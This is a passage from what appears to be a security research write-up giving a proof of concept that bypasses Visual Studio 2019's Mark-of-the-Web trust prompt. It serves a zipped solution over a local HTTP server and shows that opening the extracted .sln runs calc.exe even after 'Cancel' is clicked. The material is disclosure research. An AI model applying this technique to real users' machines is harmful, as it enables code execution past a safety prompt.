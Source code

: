 ### Visual Studio 2019 POC (Bypassing the MOTW protection)

Following on from the previous POC, use `explorer.exe` to compress the solution folder as a `.zip` file.

Use a Python webserver to publish the `.zip` file using HTTP:

```plain
C:\Users\justin> cd source\repos

C:\Users\justin\source\repos>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E79-D457

 Directory of C:\Users\justin\source\repos

13/08/2021  04:52 PM    <DIR>          .
13/08/2021  04:52 PM    <DIR>          ..
13/08/2021  04:46 PM    <DIR>          ConsoleApp1
13/08/2021  04:52 PM            26,829 ConsoleApp1.zip
               1 File(s)         26,829 bytes
               3 Dir(s)  64,576,872,448 bytes free

C:\Users\justin\source\repos> %LOCALAPPDATA%\Programs\Python\Python39\python.exe -m http.server 4444
Serving HTTP on :: port 4444 (http://[::]:4444/) ...
```

Use Edge to download the `.zip` file, causing it to be written with the MOTW.

Extract the downloaded `.zip` file using `explorer.exe`, causing its contents to be written to disk with the MOTW. Note that using a different unarchiving tool may not cause the MOTW to be written (e.g. [As is the case with 7-Zip](https://sourceforge.net/p/sevenzip/bugs/1649/))

Open the extracted `.sln` file within Visual Studio. Observe that Visual Studio 2019 asks if you really want to open the project. Click "Cancel". Observe that despite doing so, `calc.exe` still pops.

```plain
C:\Users\justin\source\repos> start %USERPROFILE%\Downloads\ConsoleApp1\ConsoleApp1\ConsoleApp1.sln
```

![Visual Studio 2019 asking if you really want to open the project](images/2022_git_buried_bare_repos_and_fsmonitor_various_abuses/visual_studio_trust_prompt.png)
